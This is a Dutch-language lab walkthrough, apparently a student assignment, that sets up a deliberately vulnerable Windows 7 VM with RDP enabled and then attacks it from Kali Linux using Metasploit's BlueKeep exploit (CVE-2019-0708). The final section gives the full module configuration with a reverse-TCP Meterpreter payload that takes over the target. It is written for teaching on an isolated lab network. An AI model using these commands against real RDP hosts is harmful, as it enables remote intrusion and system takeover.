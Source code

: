 # STAPPENPLAN NPE-OPDRACHT

In dit stappenplan wordt eerst toegelicht hoe de Windows 7 omgeving automatisch wordt opgezet. Vervolgens worden de stappen beschreven om vanuit de Kali Linux-machine een aanval uit te voeren op basis van CVE-2019-0708.

## 1. Windows 7

### Voorbereiding:

- Voor het downloaden van de gebruikte Windows 7 ISO, ga naar:
  `https://archive.org/details/win-7-ultimate-sp-1-en-us-sept-2015-x-64/Windows%207%20Ultimate%2064-bit%20SP1%20%5BPreactivated%20ISO%5D/Images/Windows%207%2064bit%20SP1-2023-11-29-22-03-26.png`
- En download `ISO IMAGE`
- Zet de ISO in dezelfde map als de scripts.
- Aangezien Windows 7 de recente VirtualBox Guest Additions niet correct ondersteunt, gebruik versie 6.1.26:
- `https://download.virtualbox.org/virtualbox/6.1.26/VBoxGuestAdditions_6.1.26.iso`
- Zet ook dit ISO-bestand in dezelfde map.


### Zorg dat je scripts kunt runnen
Soms laat Windows niet toe om scripts te runnen die je zelf niet gesigned hebt, daarom moet je je Execution-Policy aanpassen in een **Administator mode Powershell** venster

```ps
Set-ExecutionPolicy Unrestricted

# als deze een foutmelding geeft moet je deze uitvoeren:
Set-ExecutionPolicy Unrestricted -Scope CurrentUser
```

### Stap 1: Start het `create_win7_vm.ps1` script

- Volg de installatie (klik enkele keren op "Next") en wacht tot Windows volledig geïnstalleerd is.
- Wanneer Windows geïnstalleerd is, ga naar `file explorer > computer > VirtualBox Guest Additions` op de Windows7-VM en voer het `VBoxWindowsAdditions-amd64.exe` uit.
- Selecteer alle default-opties van de setup (klik telkens op *Next*)
- Druk op **reboot now** wanneer dit gevraagd uit

### Stap 2: RDP inschakelen

- Open cmd als administrator en voer volgende commando's uit:

```ps
Z:
powershell -ExecutionPolicy Bypass -File \enable_rdp.ps1
```

- Hiermee worden RDP, ICMP (ping) en poort 3389 automatisch geactiveerd.
- De Windows 7 omgeving is nu volledig klaar voor de aanval.

## 2. Kali

Zodra de Windows 7 VM klaarstaat, configureer je de KaliVM

### Stap 1:  Netwerkconfiguratie
**Zorgen dat beide VMs in hetzelfde interne netwerk zitten**

- Verander in de VirtualBox settings:
  - Netwerkadapter 1: default NAT (zodat je internet hebt)
  - Netwerkadapter 2: *internal network* en selecteer `npe_intnet` 

**IP-adres toekennen aan eth1**

- Open een terminal op Kali en voer het volgende uit:

```bash
sudo ip addr add 10.10.10.3/24 dev eth1
sudo ip link set eth1 up
```

### Stap 2: Start Metasploit

```bash
msfconsole
```

- Laad vervolgens het Bluekeep expoloit:

```
exploit/windows/rdp/cve_2019_0708_bluekeep_rce
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

set RHOSTS 10.10.10.2
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.10.3
set LPORT 4444
set TARGET 1
run
```

- Als alles correct is ingesteld, opent er zich een Meterpreter sessie waarmee je het systeem kunt overnemen.
